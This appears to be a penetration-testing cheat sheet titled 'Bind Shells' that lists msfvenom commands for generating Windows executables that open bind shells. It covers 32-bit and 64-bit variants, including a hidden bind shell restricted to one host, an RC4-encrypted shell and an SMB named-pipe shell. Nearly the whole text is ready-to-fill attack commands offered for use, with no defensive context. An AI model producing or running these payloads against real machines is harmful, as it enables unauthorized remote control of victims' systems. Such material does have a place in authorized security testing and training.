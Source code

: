 # Bind Shells

1. x86 (32-bit) Payloads

```
$ msfvenom -p windows/shell/bind_tcp lport=<PORT> -f exe -o shell-x86.exe

$ msfvenom -p windows/shell/bind_hidden_tcp ahost=<IP> lport=<PORT> -f exe -o hidden-shell-x86.exe

$ msfvenom -p windows/shell/bind_tcp_rc4 lport=<PORT> rc4password=<KEY> -f exe -o shell-x86.exe
```

For the SMB pipe the default for LPORT will always be port 445

```
$ msfvenom -p windows/shell/bind_named_pipe lport=<PORT> pipename=<PIPENAME> -f exe -o shell-x86.exe
```

2. x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/shell/bind_tcp lport=<PORT> -f exe -o shell-x86-64.exe

$ msfvenom -p windows/x64/shell/bind_tcp_rc4 lport=<PORT> rc4password=<KEY> -f exe -o shell-x86-64.exe
```